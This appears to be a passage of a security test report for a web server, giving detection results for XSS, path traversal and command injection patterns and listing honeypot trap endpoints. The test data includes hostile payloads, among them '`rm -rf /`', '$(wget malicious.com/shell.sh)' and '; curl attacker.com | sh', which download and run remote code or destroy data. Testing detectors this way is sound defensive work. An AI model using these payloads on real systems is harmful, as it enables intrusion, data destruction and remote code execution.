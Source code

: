#### XSS Patterns Detected:
```html
✅ <script>alert("XSS")</script>
✅ <img src=x onerror=alert("XSS")>
✅ javascript:alert("XSS")
✅ <iframe src="javascript:alert('XSS')">
✅ <body onload=alert("XSS")>
```

#### Path Traversal Patterns:
```
✅ ../../etc/passwd
✅ ../../../windows/system32
✅ ..%2F..%2Fetc%2Fpasswd
✅ /proc/self/environ
⚠️ c:\windows\system32\config (MISSED)
```

#### Command Injection Patterns:
```bash
✅ ; ls -la
✅ | cat /etc/passwd
✅ `rm -rf /`
✅ $(wget malicious.com/shell.sh)
⚠️ ; curl attacker.com | sh (MISSED)
```

**Security Recommendations:**
1. Improve path traversal regex for Windows paths
2. Add more command injection signatures
3. Consider ML-based anomaly detection for unknown patterns

---

### ⚠️ TEST 8: Honeypot System
**Status:** CANCELLED

**Reason:** The basic server (`server.js`) does not expose honeypot endpoints.

**Notes:**
- Honeypot module exists in `src/security/honeypot.js`
- Contains 50+ trap endpoints
- Requires `server-secure.js` or `server-ultra-secure.js`
- Test postponed pending secure server launch

**Trap Endpoints Available:**
```
/admin, /administrator, /.env, /config.php, /wp-admin, 
/phpmyadmin, /backup.sql, /api/admin, /api/keys, etc.
```

---

### ✅ TEST 9: Multi-Device Scenarios
**Status:** PASSED (100%)
